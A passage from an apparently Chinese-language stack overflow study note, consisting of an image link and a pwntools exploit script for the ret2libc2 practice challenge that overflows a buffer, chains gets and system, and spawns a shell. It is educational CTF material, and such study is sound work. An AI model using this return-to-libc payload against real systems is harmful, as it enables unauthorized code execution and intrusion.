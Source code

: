 ![image-20220116141329758](栈溢出学习.assets/image-20220116141329758.png)

编写exp：

```python
from pwn import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = process("./ret2libc2")
binsh_addr = 0x0804A080
bss_addr = 0x0804A080
system_addr = 0x08048490
gets_addr = 0x08048460
payload = flat(['a'*112,gets_addr,system_addr,bss_addr,binsh_addr]) 
p.sendline(payload)
p.sendline('/bin/sh')
p.interactive()

```
